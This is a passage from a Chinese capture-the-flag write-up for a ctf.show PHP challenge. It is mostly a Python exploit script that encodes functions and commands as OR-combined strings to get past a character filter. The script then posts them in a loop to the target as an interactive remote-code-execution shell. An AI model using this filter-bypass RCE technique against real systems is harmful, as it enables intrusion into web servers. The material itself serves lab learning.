 生成各个字符所对应的字符串

<font color='pink'>python脚本</font>

```py
# -*- coding: utf-8 -*-
import requests
import urllib
from sys import *
import os
os.system("php rce_or.php")
if(len(argv)!=2):
   print("="*50)
   print('USER：python exp.py <url>')
   print("eg：  python exp.py http://ctf.show/")
   print("="*50)
   exit(0)
url=argv[1]
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("rce_or.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"|\""+s2+"\")"
   return(output)
   
while True:
    param=action(input("\n[+] your function：") )+action(input("[+] your command："))
    data={
       'c':urllib.parse.unquote(param)
       
       }
    r=requests.post(url,data=data)
    print("\n[*] result:\n"+r.text)
    print(data)
    print(param)

```

在脚本目录下`python 41.python http://1d35c11c-a12a-40f6-823f-b82655e006c5.challenge.ctf.show/`来使用

本题还是有些地方不懂，**eval**函数这里出了点问题

`eval("echo $c;");`会报错，但双引号变单引号不会，但是本题中就是用的双引号...
